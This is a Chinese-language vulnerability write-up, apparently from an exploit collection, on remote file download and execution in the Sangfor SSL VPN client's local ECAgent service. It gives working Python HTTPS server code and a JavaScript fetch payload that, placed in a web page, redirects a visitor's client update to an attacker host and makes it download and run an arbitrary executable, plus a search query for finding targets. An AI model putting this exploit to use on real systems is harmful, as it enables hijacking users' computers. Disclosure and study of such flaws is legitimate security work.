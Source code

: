 # 深信服 SSL VPN 客户端远程文件下载

# 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

```
深信服 SSL VPN
```

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：



![](/images/202202091917573.png)



安装完之后访问VPN的页面，发现VPN会自动下载组件更新：



![](/images/202202091917218.png)



这些请求均为GET请求并附带着一些参数，我们把它一一列下来：



![](/images/202202091917102.png)



本地来看一下这个`54530`端口对应的进程是什么：

![](/images/202202091917296.png)



发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：



![](/images/202202091917851.png)



确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。



通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。



再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：



```plain
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```



第一个初始化的请求存在可控参数arg1：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```



参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：



```plain
python -m SimpleHTTPServer
```



其他的请求原封不动，依次请求一遍那一份URL



服务端成功收到请求，但是却出现了错误的提示：



![](/images/202202091917373.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。



现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。



如下脚本基于Python库建立一个 HTTPS 服务：



```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：



![](/images/202202091918528.png)



可以看见客户端会访问两个文件：



```plain
/com/WindowsModule.xml
/com/win/XXXUD.exe
```



先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：



```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。



最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。



依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```



会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：



![](/images/202202091918246.png)



Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：



```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```



其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。



![](/images/202202091918424.png)



## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg

